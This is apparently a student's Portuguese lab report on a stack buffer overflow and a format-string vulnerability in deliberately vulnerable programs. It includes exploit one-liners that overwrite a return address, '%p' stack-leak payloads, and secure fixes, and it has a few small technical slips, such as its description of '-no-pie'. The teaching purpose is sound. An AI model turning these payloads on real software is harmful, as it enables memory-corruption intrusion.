

# Lab 09

Laboratório de Vulnerabilidades de Segurança de Memória.

## Parte A: Buffer Overflow de Stack (CWE-120)

### Exercício 1: Compilação sem mitigações

- `-fno-stack-protector`: Suprime a implementação de _stack canaries_, permitindo a sobrescrita de endereços de retorno na pilha sem interrupção por corrupção de memória.
- `-z execstack`: Atribui permissões de execução ao segmento da pilha, neutralizando a proteção _NX/DEP_ e permitindo o processamento de instruções em regiões de dados.
- `-no-pie`: Desabilita a criação de executáveis independentes de posição, fixando os endereços de memória da aplicação e mitigando o efeito do _ASLR_.
- `-g`: Preserva a tabela de símbolos e metadados de depuração, correlacionando endereços de memória diretamente ao código-fonte original.

### Exercício 2: Execução normal e exploração com GDB

1. Qual é o endereço de `buffer` na stack? `0x7fffffffe330`
2. Qual é o endereço do return address guardado (use `info frame`)? `0x7fffffffe378`
3. Quantos bytes separam o início de `buffer` do return address guardado? `0x7fffffffe378` - `0x7fffffffe330` = `0x48` = 72 bytes
4. Qual é o endereço de `secret_function`? `0x4011b6`

### Exercício 3: Desencadear o overflow

Offset exato:

```
72
```

Endereço de `secret_function`:

```bash
# endereço normal
0x4011b6

# versão little endian
\xb6\x11\x40\x00\x00\x00\x00\x00
```

Comando executado:

```bash
./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xb6\x11\x40\x00\x00\x00\x00\x00')")
```

Execução do comando:


### Exercício 4: Efeito das mitigações

#### _Stack canary_ ativo

Offset: `88`

Endereço de `secret_function`:

```bash
# endereço normal
0x4011b6

# versão little endian
\xd6\x11\x40\x00\x00\x00\x00\x00
```

Comando executado:

```bash
$ ./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*88 + b'\xd6\x11\x40\x00\x00\x00\x00\x00')")
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7ffd94b0d980
[*] secret_function is at: 0x4011d6
[*] You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

O _exploit_ não funciona, pois o compilador insere um valor especial (canário) na _stack_ entre as variáveis locais e o endereço de retorno. Qualquer alteração ao canário é visível para o compilador, terminando a execução em erro.

#### PIE/ASLR ativo

Offset: `72`

Endereço de `secret_function`:

```bash
# endereço normal
0x5555555551c9

# versão little endian
\xc9\x51\x55\x55\x55\x55
```

Comando executado:

```bash
$ ./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xc9\x51\x55\x55\x55\x55')")
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7ffc33d580c0
[*] secret_function is at: 0x55d7aa4151c9
[*] You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�QUUUU
Segmentation fault (core dumped)
```

O _exploit_ não funciona. Através da _flag_ `-no-pie` o binário é compilado _Position Independent Executable_. Isto permite ao sistema operativo carregar o código em endereço de memória diferentes em cada execução.

#### Todas as mitigações por defeito

Offset: `88`

Endereço de `secret_function`:

```bash
# endereço normal
0x5555555551e9

# versão little endian
\xe9\x51\x55\x55\x55\x55
```

Comando executado:

```bash
$ ./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*88 + b'\xe9\x51\x55\x55\x55\x55')")
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7ffc7cd2bf30
[*] secret_function is at: 0x5589098c91e9
[*] You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�QUUUU
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

O _exploit_ não funciona. A _flag_ `-z execstack` é removida, o que significa que a _stack_ deixa de ter permissões de execução. Mesmo que o atacante conseguisse contornar o canário e o PIE, ele não conseguiria executar código injetado diretamente na _stack_, pois a memória da pilha está marcada apenas como leitura/escrita, e não execução.

### Exercício 5: Remediação segura

Versão corrigida de `vuln.c`: [vuln.c](vuln.c)

Compilação com mitigação por defeito:

```bash
gcc -o vuln vuln.c -g
```

Justificação:

- **Substituição de `strcpy`:** `strcpy` não faz verificação de limites, podendo escrever para além do `buffer`. Substitui por `strncpy(buffer, input, sizeof(buffer) - 1)` para garantir que nunca copia mais do que a capacidade do `buffer`.
- **Verificação explícita de comprimento:** antes de copiar, verifico `strlen(input)` e, se for maior ou igual ao tamanho do `buffer`, o programa termina. Isto impede que um input demasiado grande sequer chegue à cópia.
- **Mitigações por defeito:** ao compilar sem flags que as desativem (`-fno-stack-protector`, `-z execstack`, `-no-pie`), mantemos ativas as proteções do compilador e do sistema (stack canary, ASLR/PIE, NX), reduzindo ainda mais o impacto de eventuais erros residuais.

## Parte B: Vulnerabilidade de String de Formato (CWE-134)

### Exercício 6: Compilação e diagnósticos do compilador

Ao compilar com:

```bash
gcc -o fmtvuln fmtvuln.c -g -Wall -Wformat -Wformat-security
```

obti o seguinte aviso:

```bash
fmtvuln.c: In function ‘process_input’:
fmtvuln.c:10:5: warning: format not a string literal and no format arguments [-Wformat-security]
   10 |     printf(input);             /* CWE-134: user input used as format string */
      |     ^~~~~~
```

O compilador está a alertar que:

- `printf(input)` usa diretamente a string fornecida pelo utilizador como _format string_.
- isto permite que o utilizador inclua especificadores como `%x`, `%p`, `%n`, etc.
- o compilador não consegue verificar a segurança porque a _format string_ não é um literal, logo pode conter instruções perigosas.

Compilando sem avisos:

```
gcc -o fmtvuln fmtvuln.c -g
./fmtvuln "Hello, world!"
```

O programa comporta‑se normalmente:

```
[*] Address of secret on stack: 0x7fffffffe1a8
[*] Processing input...
Hello, world!
[*] Normal programme termination.
```

Os avisos identificam automaticamente padrões perigosos como `printf(input)`, ajudam a detetar vulnerabilidades antes da execução e funcionam como uma forma de **análise estática leve**, sem necessidade de ferramentas externas. Mas **não são suficientes** porque o compilador não compreende a lógica completa do programa, pode não detetar vulnerabilidades mais subtis (ex.: _format strings_ construídas dinamicamente), pode haver casos em que o programador ignora ou desativa avisos e a ausência de avisos **não garante** que o código está seguro.

### Exercício 7: Desencadear a vulnerabilidade

Na execução com vários `%p` o programa deixa de imprimir apenas a string fornecida e passa a revelar valores reais retirados da stack, incluindo endereços e valores residuais. Isto contrasta com o exercício anterior, onde a entrada era tratada como texto normal e nada era lido da memória. Aqui, a _format string_ maliciosa faz o `printf` interpretar a entrada como instruções para aceder à stack, expondo conteúdo interno do programa.

O `printf` lê estes valores porque não tem forma de saber quantos argumentos variáveis foram realmente passados. A função recebe apenas a _format string_ e depois consome argumentos diretamente da stack, confiando totalmente no que a _format string_ especifica. Como o programador não forneceu argumentos adicionais, o `printf` lê o que estiver nessas posições da stack, assumindo que são valores válidos, já que C não transporta metadados sobre o número de argumentos.

Quando se usa `%x` em vez de `%p`, o comportamento é semelhante, mas os valores aparecem truncados a 32 bits e sem o prefixo `0x`. Num sistema de 64 bits, `%p` é mais adequado porque imprime o tamanho completo de um ponteiro, preservando toda a informação da palavra de 64 bits, enquanto `%x` perde metade dos bits e reduz a utilidade da fuga de informação.

### Exercício 8: Localizar um valor na stack

Output:

```
$ ./fmtvuln "$(python3 -c "print('%p ' * 30, end='')")"
[*] Address of secret on stack: 0x7ffce92f8810
[*] Processing input...
0x1 0x1 0x7fe7c75bf907 0x7fe7c76c7a70 0x7ffce92f86cc 0x7ffce93d3000 0x7ffce92fa706 0xcafebabe 0x7285dd9171d01500 0x7ffce92f8840 0x564a57f5e2a5 0x7ffce92f8958 0x257f5e0e0 0x2 0x7fe7c74d4d90 (nil) 0x564a57f5e24d 0x2e92f8940 0x7ffce92f8958 (nil) 0xf66615f3d8861c6a 0x7ffce92f8958 0x564a57f5e24d 0x564a57f60da0 0x7fe7c7716040 0x99fc7acc8221c6a 0x9a99b69420a1c6a 0x7fe700000000 (nil) (nil)
[*] Normal programme termination.
```

O programa indicou que a variável `secret` está no endereço 0x7ffce92f8810. O valor `0xcafebabe` aparece na 8ª posição da sequência de `%p`.

O atacante consegue recuperar dados diretamente da _stack_. A _stack_ armazena não só variáveis locais sensíveis, mas também metadados críticos de controlo, tais como ponteiros de _frame_ que revelam a estrutura da pilha, _return addresses_ que permitem ao atacante descobrir onde o código está carregado na memória e stack canaries, valores de proteção contra _buffer overflows_ que, se lidos, permitem ao atacante forjar ataques de escrita na memória com sucesso.

### Exercício 9: Remediação segura

Correção de `process_input`:

```c
printf("%s", input);
```

Em vez de passar `input` diretamente como _format string_, passo um literal constante (`"%s"`) e `input` passa a ser apenas um argumento de dados. Assim, mesmo que a entrada contenha `%p`, `%x` ou outros especificadores, eles são tratados como texto normal, porque quem manda na interpretação é o literal `"%s"` e não o conteúdo da própria entrada.

Depois de compilar:

```bash
gcc -o fmtvuln fmtvuln.c -g
./fmtvuln "%p %p %p %p %p"
```

o programa imprime:

```bash
$ ./fmtvuln "%p %p %p %p %p"
[*] Address of secret on stack: 0x7ffc9879f650
[*] Processing input...
%p %p %p %p %p
[*] Normal programme termination.
```

Ao compilar:

```bash
gcc -o fmtvuln fmtvuln.c -g -Wall -Wformat -Wformat-security
```

deixa de aparecer o aviso `format not a string literal and no format arguments`, porque agora o `printf` usa um literal de formato seguro e os argumentos correspondem corretamente a esse formato.
